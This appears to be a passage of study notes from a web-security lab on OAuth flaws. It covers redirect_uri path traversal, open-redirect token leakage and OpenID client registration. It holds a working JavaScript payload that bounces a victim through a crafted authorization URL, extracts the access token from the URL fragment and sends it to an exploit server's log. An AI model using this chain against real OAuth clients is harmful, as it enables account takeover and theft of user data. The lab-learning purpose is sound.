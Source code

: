 ```
https://client-app.com/oauth/callback/../../example/path
```
Once you identify which other pages you are able to set as the redirect URI, you should audit them for additional vulnerabilities that you can potentially use to leak the code or token  
or the authorization code flow, you need to find a vulnerability that gives you access to the query parameters, whereas for the implicit grant type, you need to extract the URL fragment.  
One of the most useful vulnerabilities for this purpose is an open redirect. You can use this as a proxy to forward victims, along with their code or token, to an attacker-controlled domain where you can host any malicious script you like.  
Note that for the implicit grant type, stealing an access token doesn't just enable you to log in to the victim's account on the client application. As the entire implicit flow takes place via the browser, you can also use the token to make your own API calls to the OAuth service's resource server. This may enable you to fetch sensitive user data that you cannot normally access from the client application's web UI.  
```
<script>
            // Check the URL fragment exist or not
            if (document.location.hash == ''){
                // If not exist, redirect to the payload, so we can extract the access_token
                window.location.replace('https://oauth-0ada00a904369151c2bdc54b02480071.web-security-academy.net/auth?client_id=umg56k6htndwh95zhjmgd&redirect_uri=https://0a0000b304ad9179c28dc70f00dd002d.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ab400c304dc91a2c26dc6f80184009b.exploit-server.net/exploit&response_type=token&nonce=171654770&scope=openid%20profile%20email');
            } else {
                // Create a new object called urlSearchParams, which extract the URL fragment
                const urlSearchParams = new URLSearchParams(document.location.hash.substr(1));
                // Extract the access_token
                var token = urlSearchParams.get('access_token');

                // Redirect to /log with the access_token value
                window.location.replace('/log?access_token=' + token);
            };
        </script>
```
After we got access_token, we can send a GET request to /me, with header Authorization: Bearer <access_token>  
In addition to open redirects, you should look for any other vulnerabilities that allow you to extract the code or token and send it to an external domain.  
```
POST /openid/register HTTP/1.1
Content-Type: application/json
Accept: application/json
Host: oauth-authorization-server.com
Authorization: Bearer ab12cd34ef56gh89

{
    "application_type": "web",
    "redirect_uris": [
        "https://client-app.com/callback",
        "https://client-app.com/callback2"
        ],
    "client_name": "My Application",
    "logo_uri": "https://client-app.com/logo.png",
    "token_endpoint_auth_method": "client_secret_basic",
    "jwks_uri": "https://client-app.com/my_public_keys.jwks",
    "userinfo_encrypted_response_alg": "RSA1_5",
    "userinfo_encrypted_response_enc": "A128CBC-HS256",
    …
}
```